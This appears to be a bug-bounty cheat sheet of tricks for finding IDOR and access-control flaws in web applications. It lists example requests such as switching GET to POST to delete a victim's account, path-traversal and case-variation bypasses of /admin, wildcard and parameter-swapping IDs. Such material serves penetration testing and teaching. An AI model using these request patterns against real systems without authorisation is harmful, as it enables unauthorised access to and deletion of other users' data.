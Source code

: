 - change HTTP method
```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

- Try replacing parameter names
```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

-  Path Traversal
```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

- change request content-type
```bash
Content-Type: application/xml ->
Content-Type: application/json
```

-  swap non-numeric with numeric id
```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

-  Missing Function Level Acess Control 
```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

- send wildcard instead of an id
```bash
GET /api/users/user_id ->
GET /api/users/*
```

-  Never ignore encoded/hashed ID
```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```
